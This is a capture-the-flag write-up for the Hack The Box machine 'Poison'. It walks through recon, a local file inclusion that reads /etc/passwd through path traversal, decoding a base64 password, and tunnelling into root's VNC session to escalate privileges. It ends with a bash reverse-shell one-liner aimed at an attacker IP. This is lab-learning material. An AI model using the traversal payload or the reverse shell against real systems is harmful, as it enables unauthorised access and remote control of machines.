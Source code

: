 # Poison [HTB](https://app.hackthebox.com/machines/132)
![poison-01]()


## Recon

After adding the target to my `/etc/hosts` file I start scanning for open ports:

```bash
nmap -p- --min-rate 10000 poison.htb
```

![ports-02]()


We have two ports. Let's run a version detection scan againts them:


```bash
nmap -p 22,80 -sCV poison.htb -oN nmap.result
```

We have the following:

+ An SSH server on port 22.
+ An Apache-2.4.29 server on port 80.


Based on the `nmap` scan we can see that the root directory of the website doesn't have a title, and iit seems like the site is powered by PHP ver 5.6.32. Based on the sacn we can also guess that the the target OS is `FreeBSD`.


Let's take a closer look at the Apache server.


## Apache Port 80


If we open the site at `http://poison.htb/` we can see the following:

![site-04]()


It looks like the site takes a local script as input, runs it locally, and returns the result back to us.
From the available scripts we can see a `listfiles.php` script. Let's run it:


![list-files-05]()


We can see that the file name argument is sent to the server via the `file` parameter in the URL, this could pose a file inclusion vulerability. 


The response is a PHP array of the local directory listing. In the listing we see two new files that were not present in the main page, `browse.php` and `pwdbackup.txt`. 


If we run `browse.php`, it results in some of form of a memory page-fault, perhaps a buffer-overflow:

![browse-06]()


That's interesting, but i'm not sure exactly how to exploit this at the moment. 


If we retrive `pwdbackup.txt` we get the following:

![pwd-backup-07]()


We have what looks like a few different base64 encoded strings separated by a space character. But the first line of the file says that the password is encoded 13 times. How should we go about decoding this?  


At first I tried decoding each line as a seperate base64 string. This didnt work, as the outputs from the decoding started to break down and subsequent docoding attempts failed. 


Instead, I concatenated all of the individual strings into one big base64 string and saved them to a file locally. Then I used the following python script to base64 decode it 13 times:


```python
#!/usr/bin/python3

import base64 

with open('pwdbackup.txt', 'rt') as file:
    s = file.read()

for _ in range(13):
    s = base64.b64decode(s)
    s = s.decode('utf-8')

print(s)
```

Which resulted in the following:

![pass-08]()


This looks like a password, the question is what is the username? 


To answer this question I decided to go back to the website's scripting application. We know that we have some form of local file inclusion going on, as the application runs local files and returns the output.


So I decided to test for a local file inclusion vulnerability, specifically, I wanted to include the `/etc/passwd` file which will give us a list of valid usernames on the system. 


So i sent `../../../../etc/passwd` as the file name:

![err-09]()


So now we know that the `browse.php` is the script that sources the local files. We can also see that the application is hardcoded to use files inside the `/usr/local/www/apache24/data` directory which is defined in the `include_path` variable. 


Therefore, we know that we need to go five levels higher in order to reach the root directory. So I added one more `../` into the file path `../../../../../etc/passwd`:

![input-10]()


Which returned the file:

![passwd-11]()


The username was actually in the password. Let's try to login to the ssh:

![shell-12]()


Let's move to privilege escalation!


## Privilege Escalation


If we list the content's of our user's home folder we can see the following:

![list-13]()


This zip archive (owend by root) looks interesting. If we try to `unzip` it we will notice it is password protected:

![protected-14]()


Let's trasnfer the file to our kali. To do this I start a python web server on the target with:

```bash
python -m SimpleHTTPServer 8000
```


And download the file from my kali using:

```bash
wget http://poison.htb:8000/secret.zip
```

![wget-15]()


Let's try to use the ssh password from before to open it:

![unzip-16]()


It worked! 


I also ran the `file` program on it to try and identify what type of file this is. It's says its a Non-ISO extended ASCII text file, meaning there are characters outside the ASCII range (byte values ≥128) in the file. 


If we `cat` the file we can see the issue:

![cat-17]()


We can try to guess out the encoding of this file using the `uchardet` program:

```bash
apt install uchardet   # If not installed already
uchardet secret
```

![encoding-18]()


We can try to convert this string to `utf-8` with:

```bash
iconv -f WINDOWS-1252 -t utf-8 secret
```

![iconv-19]()


Unfortenatly, it's still doesn't make sense. Perhaps it's encrypted? I decided to put this file to side for now and enumerate the target some more. 


The next thing I did was to look at running processes with `ps auxww`, and that's where I saw somthing interesting:

![ps-20]()


Looks like `root` is running a VNC server on `localhost:5901`. VNC is the Virtual Network Computing system and you can read more about it [here](https://en.wikipedia.org/wiki/Virtual_Network_Computing), but in short, it's a remote graphical desktop system, much like RDP for Windows, only VNC is platform independent.


We can verify that the VNC server is running on the target host by listing the open ports as such:

```bash
sockstat -l	# A FreeBSD way of listing open ports
```

![sockstat-21]()


There is actually two ports on which the VNC server is running on, but we primarly want to focus on port 5901 because it's owned by root. We can probably guess that the `secret` file we worked on before is the password file for the VNC connection. 


The VNC server is running on the localhost of the target but if we tunnel this traffic to our attack machine we should be able to access it locally. To do that we can use port forwarding as such:

```bash
ssh -N -L 5901:localhost:5901 charix@poison.htb
```  

![forward-22]()


After we supply the user's password, the shell window stalls, which is a good sign that the tunnel has been established. We can verify this by listing out the open ports on our attack machine:

![ports-23]()


Nice! If you want a quick and easy cheet sheet for port forwarding cick [here](https://gist.github.com/billautomata/ee0572113e1496a75b03).


Now we should be able to get access to the VNC as the root user with:

```bash
vncviewer -passwd secret localhost::5901
```

![success-24]()


Which opens up the following (tiny) window:

![root-25]()


Although it's hard to read because the font is so small, this is in fact a root shell! 

From here we can run something like `bash -i >& /dev/tcp/10.10.14.58/9001 0>&1` to give ourselfes a proper shell, if we want.  
